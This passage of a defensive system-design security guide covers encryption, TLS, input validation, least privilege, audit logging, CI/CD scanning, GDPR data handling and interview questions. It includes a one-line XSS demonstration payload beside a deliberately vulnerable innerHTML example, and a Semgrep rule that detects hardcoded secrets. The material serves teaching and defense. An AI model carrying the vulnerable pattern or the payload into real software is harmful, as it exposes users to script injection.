

AWS WAF example — managed rule groups you should enable:
- `AWSManagedRulesCommonRuleSet` — OWASP Top 10 patterns
- `AWSManagedRulesSQLiRuleSet` — SQL injection
- `AWSManagedRulesKnownBadInputsRuleSet` — known exploit payloads
- `AWSManagedRulesAmazonIpReputationList` — known malicious IPs

---

## 10. Data Encryption at Rest

### The Analogy

Imagine your database as a warehouse full of filing cabinets. The warehouse has a fence (network), a lock on the door (authentication), and security cameras (logging). But if someone breaks the fence and steals a filing cabinet, they have all your data.

Encryption at rest is like storing all the files in those cabinets in a language only you can read. Steal the cabinet — useless without the decoder ring.

### What "At Rest" Means

- Database rows (RDS, DynamoDB, MongoDB)
- Files and blobs (S3, EBS volumes, NFS mounts)
- Database backups and snapshots
- Log files (they contain sensitive data too)
- Application caches (Redis can persist to disk)

**Everything.** Not just the database.

### AES-256 — The Standard

AES-256 (Advanced Encryption Standard with 256-bit key) is the global standard for symmetric encryption at rest. A 256-bit key has 2^256 possible values — brute-forcing is computationally impossible for any computer that will ever exist.

Always use **AES-256-GCM** mode — Galois/Counter Mode provides both confidentiality (nobody can read the data) and integrity (nobody can tamper with the data without detection).

### Envelope Encryption — How AWS KMS Works

You never encrypt your data directly with a master key. That would mean re-encrypting petabytes of data every time you rotate the master key. Instead, you use **envelope encryption**:



**To decrypt:**
1. Fetch `Encrypted DEK` and `Ciphertext` from storage
2. Send `Encrypted DEK` to KMS — KMS decrypts it using the KEK (KEK never leaves the HSM)
3. Use the returned DEK to decrypt the `Ciphertext` locally
4. Discard the DEK from memory when done

**Key rotation benefit:** Rotating the master key (KEK) only means re-encrypting the small DEKs — not re-encrypting petabytes of actual data.

### Enabling Encryption in Practice

**AWS RDS (PostgreSQL, MySQL):**
```bash
# Enable encryption at creation (cannot be enabled after creation)
aws rds create-db-instance \
    --db-instance-identifier my-prod-db \
    --storage-encrypted \
    --kms-key-id arn:aws:kms:ap-south-1:123456:key/your-key-id \
    # ... other options
```

**AWS S3:**
```bash
# Enable default encryption on every new object
aws s3api put-bucket-encryption \
    --bucket your-bucket-name \
    --server-side-encryption-configuration '{
        "Rules": [{
            "ApplyServerSideEncryptionByDefault": {
                "SSEAlgorithm": "aws:kms",
                "KMSMasterKeyID": "arn:aws:kms:..."
            }
        }]
    }'
```

**PostgreSQL with application-level encryption (for extra-sensitive columns):**
```sql
-- Store PII columns encrypted at the column level
-- Even DB admins cannot read raw values
INSERT INTO users (id, name, ssn_encrypted)
VALUES (
    gen_random_uuid(),
    'Rahul Sharma',
    pgp_sym_encrypt('123-45-6789', current_setting('app.encryption_key'))
);

-- Decrypt only when needed
SELECT pgp_sym_decrypt(ssn_encrypted, current_setting('app.encryption_key')) as ssn
FROM users WHERE id = $1;
```

---

## 11. Data Encryption in Transit

### TLS Everywhere — Not Just at the Perimeter

Covered in Section 2, but the key point bears repeating: **TLS applies to every hop**, not just the public-facing one.



Many teams encrypt the `Client → Load Balancer` hop but then use plain HTTP internally. This is wrong. Each hop should use TLS.

**Enabling TLS on RDS connections:**
```python
import psycopg2
import ssl

# Require SSL — reject plaintext connections
conn = psycopg2.connect(
    host='my-db.cluster.ap-south-1.rds.amazonaws.com',
    database='orders',
    user=db_creds['username'],
    password=db_creds['password'],
    sslmode='require',           # 'require' or 'verify-full' for cert validation
    sslrootcert='/etc/ssl/rds-ca-2019-root.pem'
)
```

**Enabling TLS on Redis:**
```python
import redis

r = redis.Redis(
    host='my-redis.abc123.ng.0001.apse1.cache.amazonaws.com',
    port=6380,   # TLS port
    ssl=True,
    ssl_cert_reqs='required',
    ssl_ca_certs='/etc/ssl/amazon-elasticache-ca.pem'
)
```

---

## 12. Input Validation and Sanitization

### The Analogy

A hospital accepts patients at the reception desk (API boundary). Before a patient is admitted, the receptionist checks: Is this person actually a patient? Do they have valid insurance? Are they carrying anything dangerous?

**Never trust client input** — the client is always potentially an attacker. Validate at the API boundary, every time.

### Validate Type, Length, Format, Range — Never Trust the Client

```python
from pydantic import BaseModel, field_validator, constr, EmailStr
from typing import Optional
import re

class CreateOrderRequest(BaseModel):
    # Type enforcement + length limits
    restaurant_id: int                                    # Must be integer
    items: list[OrderItem]                                # Must be a list
    delivery_address: constr(min_length=10, max_length=500) # Must be string, 10-500 chars

    # Format validation
    phone: constr(pattern=r'^\+91[6-9]\d{9}$')          # Indian phone number format

    # Range validation
    total_amount: float

    # Custom validation
    @field_validator('total_amount')
    @classmethod
    def amount_must_be_positive(cls, v):
        if v <= 0:
            raise ValueError('Order total must be positive')
        if v > 100000:                                     # Zomato's max reasonable order
            raise ValueError('Order total exceeds maximum limit')
        return round(v, 2)                                  # Normalize to 2 decimal places

    @field_validator('items')
    @classmethod
    def items_not_empty(cls, v):
        if not v:
            raise ValueError('Order must have at least one item')
        if len(v) > 50:                                    # Reasonable upper bound
            raise ValueError('Too many items in a single order')
        return v
```

### Where to Validate



Never rely on client-side validation for security. Client-side is for UX (faster feedback). Security validation always happens server-side at the API boundary and in the database.

### Output Encoding — Preventing XSS

Input validation prevents bad data coming IN. Output encoding prevents malicious data causing harm when it goes OUT.

```javascript
// VULNERABLE — inserting user data directly into DOM
document.getElementById('username').innerHTML = userData.name;
// If name = "<script>alert('xss')</script>" → script executes

// SAFE — use textContent or React's JSX (auto-escapes)
document.getElementById('username').textContent = userData.name;
// OR in React — auto-escaped by default:
<span>{userData.name}</span>

// When you MUST insert HTML (e.g., rich text from a CMS):
// Use DOMPurify to sanitize first
import DOMPurify from 'dompurify';
const clean = DOMPurify.sanitize(userData.bio, { ALLOWED_TAGS: ['b', 'i', 'em'] });
element.innerHTML = clean;
```

---

## 13. Principle of Least Privilege

### The Analogy

A janitor at a hospital has a master key that opens every room. That is convenient for them, but if the janitor's key is stolen, the thief has access to the pharmacy, the ICU, the records room — everything.

**Least privilege** means the janitor should only have keys to the rooms they actually need to clean. The pharmacy is locked — they cannot enter, even with their master key.

Yeh ek fundamental security principle hai — har entity ko sirf utna hi access do jitna uske kaam ke liye zaroori hai.

### Apply to Every Layer



### AWS IAM — Least Privilege Example

```json
// WRONG — wildcard permissions
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "s3:*",           // Can do ANYTHING on S3
    "Resource": "*"             // On ANY bucket
  }]
}

// RIGHT — specific permissions, specific resource
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "s3:GetObject",           // Can only read objects
      "s3:PutObject"            // Can only write objects
    ],
    "Resource": [
      "arn:aws:s3:::zomato-order-images/*"  // ONLY this specific bucket
    ]
  }]
}
```

### Database Users — One User Per Service

```sql
-- Create separate DB users per service (NOT one shared admin user)
CREATE USER order_service WITH PASSWORD 'fetched_from_vault';
CREATE USER analytics_service WITH PASSWORD 'fetched_from_vault';
CREATE USER payment_service WITH PASSWORD 'fetched_from_vault';

-- Order service only needs orders table
GRANT SELECT, INSERT, UPDATE ON orders TO order_service;
GRANT SELECT ON restaurants TO order_service;  -- Read only

-- Payment service only needs payments table
GRANT SELECT, INSERT ON payments TO payment_service;

-- Analytics service only reads, never writes
GRANT SELECT ON ALL TABLES IN SCHEMA public TO analytics_service;

-- Nobody can drop tables (not even app users)
REVOKE DROP ON ALL TABLES IN SCHEMA public FROM order_service;
```

**Why this matters:** If the Order Service gets compromised (RCE via a dependency vulnerability), the attacker can only see and modify orders. They cannot read the payments table, cannot drop tables, and cannot access users' credentials. The blast radius is contained.

---

## 14. Audit Logging — Who Did What and When

### The Analogy

A bank has cameras in every room that record 24/7. Not because they expect crime every day — but because when something does go wrong, they can review exactly what happened, who was involved, and when. The recordings are locked so nobody can tamper with them.

Audit logs are your system's security cameras.

### Why Audit Logging Is Critical

1. **Compliance:** SOC2, HIPAA, PCI-DSS, GDPR all require audit trails. "We had logs" vs "we had no logs" is the difference between a fine and a criminal case.
2. **Incident response:** When a breach happens, you need to know what the attacker did, how far they got, and what data was accessed.
3. **Accountability:** If an employee abuses their access, logs prove it.
4. **Debugging:** Understanding why a state changed in production.

### What to Log

```python
import structlog
from datetime import datetime, timezone
import uuid

logger = structlog.get_logger()

class AuditEvent:
    """Every sensitive action should be logged with this structure."""
    pass

def transfer_funds(from_account: str, to_account: str, amount: float, actor_id: str):
    # Log BEFORE the action — so if the action crashes, we still know it was attempted
    audit_id = str(uuid.uuid4())

    logger.info(
        "funds.transfer.initiated",
        audit_id=audit_id,
        timestamp=datetime.now(timezone.utc).isoformat(),  # Always UTC
        actor_id=actor_id,                                  # WHO
        actor_ip=request.client.host,                       # FROM WHERE
        action="transfer_funds",                            # WHAT ACTION
        resource_type="bank_account",                       # WHAT RESOURCE TYPE
        resource_id=from_account,                           # WHICH RESOURCE
        details={
            "from_account": from_account,
            "to_account": to_account,
            "amount": amount
        },
        session_id=request.session_id,
        request_id=request.id
    )

    # Perform the action
    result = db.execute_transfer(from_account, to_account, amount)

    # Log the outcome
    logger.info(
        "funds.transfer.completed",
        audit_id=audit_id,
        success=True,
        transaction_id=result.transaction_id
    )

    return result
```

### What Makes a Good Audit Log

| Field | Why It Matters |
|---|---|
| `timestamp` (UTC) | When — use UTC always, never local time |
| `actor_id` | WHO performed the action (user ID, service ID) |
| `actor_ip` | FROM WHERE — detects access from unusual locations |
| `action` | WHAT — verb + noun (e.g., "user.delete", "order.cancel") |
| `resource_type` + `resource_id` | WHAT was affected (e.g., order #12345) |
| `outcome` (success/failure) | Did it work? Failures are important too |
| `session_id` + `request_id` | Enables correlation across services |
| `before_state` + `after_state` | For mutations — what changed |

### Immutable Audit Logs

Audit logs must be **append-only** — nobody should be able to delete or modify a log entry, including administrators.



**AWS S3 Object Lock:** Prevents deletion or modification of objects for a configured retention period. Perfect for immutable audit trails.

### Events That MUST Be Logged

- Authentication events (login success, login failure, MFA success/failure)
- Authorization failures (403 responses)
- Account changes (password reset, email change, MFA added/removed)
- All admin actions
- Data access on sensitive resources (PII, financial data)
- All write operations (create, update, delete)
- Configuration changes
- Secret access (who fetched which secret from Vault)

### Events That Must NOT Be Logged

- Plaintext passwords (even in failed login attempts — log "invalid password" not the password)
- Full credit card numbers (log last 4 digits only)
- Full SSNs, Aadhaar numbers (log masked versions)
- Full API keys (log key prefix only)

---

## 15. Security in CI/CD Pipelines

### The Analogy

Building software without security checks in the pipeline is like a car factory that only checks safety standards after cars are already on the road. You want to catch problems on the assembly line, not in the hands of customers.

**Shift left** — move security checks as early as possible in the development lifecycle. Cheaper to fix in code review than in production.

### The DevSecOps Pipeline



### SAST — Static Analysis Security Testing

Scans source code without running it. Finds:
- Hardcoded credentials: `password = "admin123"`
- SQL injection patterns: string concatenation in DB queries
- Insecure cryptography: using MD5 for passwords
- Missing input validation

**Example: Semgrep rule for detecting hardcoded secrets**
```yaml
# .semgrep/rules/secrets.yaml
rules:
  - id: hardcoded-password
    patterns:
      - pattern: $X = "..."
      - metavariable-regex:
          metavariable: $X
          regex: '(?i)(password|passwd|secret|api_key|token)'
    message: "Possible hardcoded secret in variable $X"
    severity: ERROR
    languages: [python, javascript, typescript, java]
```

### Dependency Scanning

Every npm package, pip library, or Maven dependency is a potential vulnerability. Attackers actively target popular open-source libraries (supply chain attacks).

```yaml
# .github/workflows/security.yml
name: Security Scan
on: [push, pull_request]

jobs:
  dependency-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Run Snyk to check for vulnerabilities
        uses: snyk/actions/node@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
        with:
          args: --severity-threshold=high  # Fail only on HIGH/CRITICAL

  container-scan:
    runs-on: ubuntu-latest
    steps:
      - name: Build Docker image
        run: docker build -t myapp:${{ github.sha }} .
      - name: Scan container image with Trivy
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: myapp:${{ github.sha }}
          format: sarif
          exit-code: 1
          severity: CRITICAL,HIGH
```

### Secrets Scanning in Git

Even with environment variables and Vault, developers sometimes accidentally commit secrets. **Pre-commit hooks** and CI scanning catch this:

```bash
# Install gitleaks as a pre-commit hook
# .pre-commit-config.yaml
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
        # Scans staged files before commit is allowed
```

**If a secret is committed:** Assume it is compromised immediately. Rotate the secret first, then remove it from git history. The secret IS leaked even if the commit is squashed — anyone who saw the commit already has it.

### DAST — Dynamic Analysis Security Testing

DAST runs against a live application (staging environment) and attacks it like an actual attacker would:

```yaml
  dast-scan:
    runs-on: ubuntu-latest
    needs: deploy-staging
    steps:
      - name: ZAP Full Scan
        uses: zaproxy/action-full-scan@v0.8.0
        with:
          target: 'https://staging.yourapp.com'
          rules_file_name: '.zap/rules.tsv'
          cmd_options: '-a'   # Include ajax spider
```

### Security Checklist for Every PR

| Check | Tool | When |
|---|---|---|
| Hardcoded secrets scan | GitGuardian / gitleaks | Pre-commit + CI |
| Static analysis | Semgrep / CodeQL | CI on every PR |
| Dependency CVE scan | Snyk / Dependabot | CI + weekly |
| Container image scan | Trivy / Grype | CI before push to registry |
| Dynamic scan | OWASP ZAP | CI against staging |
| Pentest | External security firm | Quarterly |
| Threat model review | Manual + STRIDE | Before major architecture changes |

---

## 16. PII, GDPR, and Data Privacy

### The Analogy

Imagine you run a hotel. Guests give you their name, address, credit card, and sometimes their ID. You use this information to serve them. But you are NOT allowed to sell this list to advertisers, share it with other hotels, keep it forever, or use it for purposes the guest did not agree to.

GDPR (General Data Protection Regulation) and India's DPDP Act (Digital Personal Data Protection Act) are like laws that govern what hotels can do with guest information.

**Yeh sirf compliance nahi hai — it is about trust.** Users trust your system with their personal data. Violating that trust destroys your product.

### What Is PII?

**Personally Identifiable Information (PII)** is any data that can identify a specific individual:

| High Sensitivity | Medium Sensitivity | Low Sensitivity |
|---|---|---|
| SSN / Aadhaar number | Name | Browser type |
| Passport / government ID | Email address | Country |
| Credit card numbers | Phone number | Language preference |
| Biometrics | IP address | Timezone |
| Health/medical data | Location data | Theme preference |
| Financial account numbers | Photos | |
| Passwords (hashed) | Purchase history | |

### GDPR and DPDP Core Principles

| Principle | What It Means in Practice |
|---|---|
| **Lawful basis** | You must have a legal reason to process data (consent, contract, legitimate interest) |
| **Data minimization** | Collect only what you actually need. Do NOT collect just because you can. |
| **Purpose limitation** | Data collected for delivery cannot be used for ads without separate consent |
| **Storage limitation** | Do not store data forever. Define retention periods and delete when expired. |
| **Right to deletion** | Users can request their data be deleted ("right to be forgotten") |
| **Data portability** | Users can request their data in machine-readable format |
| **Data residency** | EU users' data must stay in the EU (for GDPR). India has similar requirements. |
| **Breach notification** | Must notify users within 72 hours of a breach (GDPR) |

### Implementing "Right to Deletion"

This sounds simple but is architecturally complex. User data is scattered across:
- Primary database
- Analytics database
- Email marketing platform
- Customer support system
- Backups (you cannot easily delete from backups)
- Audit logs (you cannot delete audit logs — legal conflict)
- Third-party integrations (Stripe, Intercom, Mixpanel)

```python
class DataDeletionService:
    """
    Handles GDPR right-to-deletion requests.
    Erases or anonymizes user data across all systems.
    """

    async def delete_user(self, user_id: str, request_id: str):
        # 1. Mark user as deleted in primary DB immediately
        await self.db.execute(
            "UPDATE users SET deleted_at = NOW(), deletion_request_id = $2 WHERE id = $1",
            user_id, request_id
        )

        # 2. Anonymize PII (rather than delete — preserves referential integrity)
        await self.db.execute("""
            UPDATE users SET
                email = CONCAT('deleted-', id, '@deleted.com'),
                name = 'Deleted User',
                phone = NULL,
                address = NULL
            WHERE id = $1
        """, user_id)

        # 3. Purge from analytics (Mixpanel, Amplitude)
        await self.mixpanel.delete_user(user_id)

        # 4. Request deletion from third-party services
        await self.stripe.delete_customer(user_id)
        await self.intercom.delete_user(user_id)

        # 5. Enqueue backup deletion (handled separately with retention policy)
        await self.deletion_queue.enqueue({
            "user_id": user_id,
            "delete_after": datetime.now() + timedelta(days=90)  # After backup rotation
        })

        # 6. Log the deletion (in audit log — cannot delete this!)
        await self.audit_log.log({
            "event": "user.deleted",
            "user_id": user_id,          # Must keep for audit trail
            "request_id": request_id,
            "timestamp": datetime.now(timezone.utc).isoformat()
        })
```

### Data Minimization in Schema Design

```sql
-- BAD — collecting everything "just in case"
CREATE TABLE user_orders (
    id UUID PRIMARY KEY,
    user_id UUID,
    restaurant_id UUID,
    user_full_name TEXT,        -- Why? You have user_id
    user_phone TEXT,            -- Why? Fetch from users table when needed
    user_home_address TEXT,     -- Why? This is a delivery order, not permanent record
    user_dob DATE,              -- Why is birth date on an order?
    delivery_address TEXT,      -- YES — this you need
    items JSONB,
    total_amount DECIMAL
);

-- GOOD — collect only what the order processing actually needs
CREATE TABLE user_orders (
    id UUID PRIMARY KEY,
    user_id UUID REFERENCES users(id),   -- Reference, don't duplicate
    restaurant_id UUID,
    delivery_address TEXT,               -- Specific address for this delivery
    items JSONB,
    total_amount DECIMAL,
    created_at TIMESTAMPTZ,
    delivered_at TIMESTAMPTZ
    -- That's it. Fetch user details from users table when needed.
);
```

### Data Residency Architecture

For products that serve users in multiple geographies:



### PII in Logs — A Deadly Trap

```python
# WRONG — logging PII leaks data into log aggregation systems
logger.info(f"User login: email={user.email}, phone={user.phone}")
# Splunk/DataDog now has all your users' email/phone numbers

# WRONG — logging full credit card
logger.error(f"Payment failed for card {card_number}")

# RIGHT — log IDs, not PII
logger.info("user.login", user_id=user.id, method="email")

# RIGHT — log masked values when the value itself is needed for debugging
logger.error("payment.failed",
    card_last_four=card_number[-4:],   # Only last 4 digits
    card_type=card_type,
    error_code=payment_error.code
)
```

---

## 17. Defense in Depth — Putting It All Together

### The Full Picture

Security is not one thing. It is many overlapping layers. When one fails, the others hold. This is defense in depth.

```mermaid
graph TD
    User["User Request\n(Mobile/Web)"] --> CDN

    subgraph "Layer 1: Edge"
        CDN["CDN + DDoS Protection\n(Cloudflare / AWS Shield)\n• Absorbs volumetric attacks\n• IP reputation blocking\n• Bot challenges\n• DDoS mitigation"]
    end

    CDN --> WAF

    subgraph "Layer 2: Perimeter"
        WAF["Web Application Firewall\n(Cloudflare WAF / AWS WAF)\n• OWASP Top 10 rules\n• SQL injection patterns\n• XSS payloads\n• Known bad IPs"]
    end

    WAF --> APIGW

    subgraph "Layer 3: API Gateway"
        APIGW["API Gateway\n(Kong / AWS API GW)\n• Rate limiting\n• Auth token validation\n• CORS enforcement\n• TLS termination\n• HSTS header injection"]
    end

    APIGW --> App

    subgraph "Layer 4: Application"
        App["Application Services\n• Input validation (Pydantic/Zod)\n• Business logic authZ\n• Parameterized DB queries\n• BOLA ownership checks\n• CSRF protection\n• Audit logging"]
    end

    App --> Mesh

    subgraph "Layer 5: Internal Network"
        Mesh["Service Mesh\n(Istio / Linkerd)\n• mTLS between all services\n• Zero trust internal network\n• Certificate rotation every 24h\n• Network policies (microsegmentation)"]
    end

    Mesh --> Data

    subgraph "Layer 6: Data"
        Data["Data Layer\n• Encryption at rest (AES-256)\n• TLS for DB connections\n• Column-level encryption for PII\n• DB users with least privilege\n• Backup encryption\n• Row-level security (RLS)"]
    end

    Data --> Secrets

    subgraph "Layer 7: Credentials"
        Secrets["Secrets & Key Management\n• AWS KMS / HashiCorp Vault\n• No hardcoded secrets\n• Automatic secret rotation\n• IAM roles (not access keys)\n• Audit log every secret access"]
    end

    Secrets --> Monitor

    subgraph "Layer 8: Observability"
        Monitor["Logging & Monitoring\n• Immutable audit logs (S3 WORM)\n• SIEM alerting (anomaly detection)\n• Failed auth spike alerts\n• Unusual data access patterns\n• Compliance reporting (SOC2/PCI)"]
    end
```

### The Attacker's Perspective — Red Team Thinking

A good security designer thinks like an attacker:

1. **How do I get in?** — Phishing, credential stuffing, exploiting a public-facing vulnerability
2. **How do I move laterally?** — Pivot from one compromised service to another
3. **How do I escalate privileges?** — Find a misconfigured IAM role, exploit BOLA
4. **How do I exfiltrate data?** — Read the database, exfiltrate via the API, send to an external server
5. **How do I cover my tracks?** — Delete logs, modify audit trails

Defense in depth addresses each of these steps. MFA makes step 1 harder. mTLS and microsegmentation make step 2 harder. Least privilege makes step 3 harder. Encryption at rest and DLP make step 4 harder. Immutable audit logs make step 5 impossible.

---

## 18. Common Interview Questions

### Q1: "Design a secure API for a payment system."

**What the interviewer wants:** Defense in depth thinking, not just "use HTTPS."

**Answer outline:**
- TLS 1.3 for all traffic (client to gateway, gateway to services, services to DB)
- mTLS between microservices (Order → Payment service)
- OAuth 2.0 with short-lived tokens (15 min access, 7-day rotating refresh)
- Input validation on every endpoint (amount > 0, valid currency, valid recipient)
- BOLA checks: every payment operation verifies the requester owns the source account
- Idempotency keys to prevent duplicate charges
- Secrets in AWS Secrets Manager (no hardcoded API keys)
- Audit log every transaction attempt (immutable, SOC2 compliant)
- PCI-DSS compliance: never log full card numbers, encrypt card data with KMS
- Rate limiting on payment attempts (3 per minute per user, lockout after 5 failures)

### Q2: "What is Zero Trust and how would you implement it?"

- Define it: never trust, always verify, even on internal network
- Why it replaced perimeter security: remote work, cloud, microservices
- Three pillars: verify explicitly, least privilege, assume breach
- Implementation: mTLS between services (Istio), OPA for policy decisions, Vault for secrets, IAM for cloud resources, network policies for microsegmentation
- Real example: GoogleBeyondCorp — Googlers work from any network, every access decision is made based on device health + identity, not network location

### Q3: "How would you handle secret rotation without downtime?"

- Use a secrets manager (Vault / AWS Secrets Manager) with dynamic secrets or automatic rotation
- Application fetches secrets at startup and caches with TTL
- For DB passwords: AWS Secrets Manager rotates the password in RDS and updates the secret; app uses the secret name (not the value), so when it refreshes the cache, it gets the new password
- Blue-green rotation: new password created, verified, old password retired — both valid for a brief overlap window
- Never hardcode the secret value — always fetch by name

### Q4: "What is BOLA/IDOR and how do you prevent it?"

- BOLA = Broken Object Level Authorization (most common API vulnerability)
- User A changes the ID in a URL from their own resource ID to another user's resource ID — and it works
- Prevention: ALWAYS filter by both the resource ID AND the authenticated user's ID in the database query. Return 404 (not 403) when ownership check fails — 403 leaks that the resource exists
- Test for it: in your API tests, try accessing resource IDs that belong to a different user. These should return 404.

### Q5: "What headers should every web application include for security?"

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.yourdomain.com
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: geolocation=(), microphone=(), camera=()
```

### Q6: "How do you handle PII deletion for GDPR compliance?"

- Soft delete first (mark user as deleted), schedule hard deletion
- Anonymize PII fields (replace name/email/phone with placeholder values)
- Preserve referential integrity (order history stays, but "name" becomes "Deleted User")
- Purge from analytics platforms, email platforms, support systems (each has its own deletion API)
- Backup problem: backups cannot be easily modified — set retention policy so old backups expire, accept 90-day lag
- Audit log: log the deletion event, but this log itself is immutable and retained for compliance (legal tension — typically handled by keeping user_id but removing PII fields even from audit logs)

### Q7: "What is the difference between authentication and authorization? Give an example of each failing."

- **Authentication (AuthN):** Proving identity. "Who are you?" Failure → 401 Unauthorized. Example: invalid password, expired JWT, missing Bearer token.
- **Authorization (AuthZ):** Proving permission. "What can you do?" Failure → 403 Forbidden. Example: authenticated user tries to access admin endpoint, or user A tries to read user B's data.
- Common mistake: treating them as the same. Always AuthN first, then AuthZ. Never skip either just because the other is strong.

### Q8: "How would you implement rate limiting in a distributed system?"

- Cannot use in-memory counters (multiple app servers, each has separate memory)
- Use Redis as a shared counter with a sliding window algorithm
- For global rate limiting across microservices: use an API gateway (Kong, AWS API GW) with rate limiting middleware
